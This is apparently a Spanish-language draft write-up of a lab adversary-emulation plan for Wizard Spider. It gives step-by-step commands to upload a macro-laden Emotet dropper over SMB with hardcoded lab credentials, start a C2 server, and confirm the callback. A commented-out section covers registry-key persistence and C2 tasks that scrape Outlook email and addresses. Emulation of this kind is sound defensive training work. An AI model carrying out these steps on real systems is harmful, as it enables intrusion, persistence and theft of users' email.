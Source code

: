 ```yaml
---
title: Plan de Emulación - Escenario 1 de Wizard Spider
---
```


# Preparación del entorno:
- Verificar conectividad a red
- En la maquina atante:
    - Instalar smbclient y verificar 
    
```bash
    sudo apt install smbclient  
    smbclient --version
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 18-57-54.png)  
    
# FASE 1: COMPROMISO INICIAL – Emotet Dropper

Objetivo: Infectar a Dorothy con un documento Word malicioso que descarga y ejecuta una DLL simulando Emotet.

Procedimiento:


## 1. Subir el documento malicionso a Dorothy, colocarlo en el escritorio.

```bash
    smbclient -U 'oz\judy' //10.0.0.7/C$ -c "put wizard_spider/Resources/Emotet_Dropper/ChristmasCard.docm Users/judy/Desktop/ChristmasCard.docm;" "Passw0rd!"
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-45-48.png) 

## 2. Iniciar servidor:

```bash
    cd ~/wizard_spider/Resources/control_server
    sudo ./controlServer
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-51-11.png)  

## 3. Conectarte por RDP a Dorothy:

```bash
    xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 19-23-27.png)  

## 4. Ejecutar ataque:

### 1. Ejecutar el dropper de Emotet 

Simular la acción del usuario al abrir el documento malicioso, lo que desencadenará la ejecución de Emotet.

- Dentro de la ventana de la sesión RDP de Dorothy, ve al escritorio del usuario Judy.
- Buscar el documento llamado ChristmasCard.docm.
- Hacer doble clic en el documento para abrirlo con Microsoft Word.
- Word mostrará una advertencia de seguridad sobre las macros. Habilita las macros cuando se te solicite. Esto es crítico para que el malware se ejecute.
- Después de habilitar las macros, deberías ver una ventana de terminal parpadeando brevemente (puede que apenas la notes) mientras se ejecuta la DLL de Emotet. - Espera unos segundos para que se complete la ejecución.

![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 20-14-11.png)  
![image.png](/assets/images/2025-06-08-emulacion/Captura desde 2025-06-23 20-14-47.png)  


### 2. Confirmar la sesión (20 minutos)

Verificar que Emotet se ha ejecutado correctamente en Dorothy y ha establecido una conexión con tu servidor de control en Kali.

- Volver a la terminal en tu máquina atacante (Kali Linux) donde se ejecuto 'sudo ./controlServer'.
- Visualizar un nuevo "callback" o sesión entrante en la salida del servidor. Esto indica que Emotet en Dorothy se ha conectado exitosamente. Busca mensajes que confirmen una nueva conexión o sesión.





---


# posibles titulos:

    “Emulación Controlada de Wizard Spider, APT en un Entorno Simulado”

    “Aplicación de Técnicas de Adversary Emulation para la Comprensión de Wizard Spider en un Laboratorio Virtual”

    “Simulación de un Ataque de Wizard Spider: Un Enfoque Basado en Escenarios Reales”

    “Plan de Emulación de Wizard Spider en un Entorno Controlado#

    “Emulación Táctica de Wizard Spider: De Emotet a Ryuk”

    “Emulación Práctica de APTs: Wizard Spider en un Laboratorio Virtualizado”

    “Diseño y Ejecución de un Escenario de Emulación Basado en Wizard Spider”

    “Estudio Práctico del Comportamiento de Wizard Spider mediante Adversary Emulation con CALDERA y Técnicas MITRE ATT&CK”

--- 
<!-- 
# FASE 2: PERSISTENCIA de Emotet Registry Key

Objetivo: Simular persistencia modificando el registro.
Procedimiento:

## 1. Establecer persistencia:

En la terminal de la máquina atacante, ejecutar el siguiente comando:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 1
```

## 2. Confirmar en Dorothy que se creó la clave:
- Ruta: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
- Clave: blbdigital, Valor: rundll32.exe %userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll,Control_RunDLL


--- 

# Fase 3: Descubrimiento de Host de Emotet y Recolección de Credenciales

## 1. Enumerar procesos:

Ejecuta en la terminal del cliente:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
Esto hará que Emotet enumere los procesos en Dorothy.

## 2. Descargar Outlook Scraper DLL:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
Emotet descargará la DLL del scraper de Outlook. 

## 3.  Cargar Outlook Scraper DLL:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
Emotet cargará la DLL en su espacio de memoria

## 4.  Extraer contenido de correo electrónico de Outlook:

```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```
Emotet utilizará PowerShell para extraer información de correo electrónico.

## 5.  Extraer direcciones de correo electrónico:
```bash
    ./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```
Emotet recolectará direcciones de correo electrónico. 


Se obtendra el acceso al usuario bill@oz.local para la siguiente fase.

```bash

```


```bash

``` -->
